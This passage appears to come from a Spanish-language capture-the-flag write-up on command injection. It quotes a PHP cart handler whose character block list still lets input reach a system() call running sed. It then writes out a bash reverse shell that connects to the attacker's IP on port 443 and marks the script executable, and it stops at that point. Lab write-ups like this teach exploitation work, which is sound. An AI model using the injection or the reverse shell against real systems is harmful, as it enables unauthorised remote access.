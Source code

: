<br><br>
# Command Injection:

- En una parte del archivo vemos lo siguiente:

```js
//delete from cart
if ($_SERVER['REQUEST_METHOD'] === 'POST' && $_POST['action'] === 'delete_item' && $_POST['item'] && $_POST['user']) {
    $item_id = $_POST['item'];
    $user_id = $_POST['user'];
    $bad_chars = array(";","&","|",">","<","*","?","`","$","(",")","{","}","[","]","!","#"); //no hacking allowed!!

    foreach($bad_chars as $bad) {
        if(strpos($item_id, $bad) !== FALSE) {
            echo "Bad character detected!";
            exit;
        }
    }

    foreach($bad_chars as $bad) {
        if(strpos($user_id, $bad) !== FALSE) {
            echo "Bad character detected!";
            exit;
        }
    }
    if(checkValidItem("{$STORE_HOME}cart/{$user_id}")) {
        system("sed -i '/item_id={$item_id}/d' {$STORE_HOME}cart/{$user_id}");
        echo "Item removed from cart";
    }
    else {
        echo "Invalid item";
    }
    exit;
}
```

- Vemos que en una parte del código se ejecuta en el sistema el comando `"sed"` seguido del argumento "item_id", esto lo podemos explotar ya que, teniendo acceso a la tienda (Subdominio al que accedimos) podremos elegir un artículo en particular y dentro de la máquina visualizar el id del item en cuestión y modificarlo a nuestra conveniencia.

- Primero, creamos un archivo `reverse shell` dentro del sistema de la máquina víctima:

```bash
$nano /tmp/shell.sh
```

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.131/443 0>&1

$chmod +x /tmp/shell.sh
```
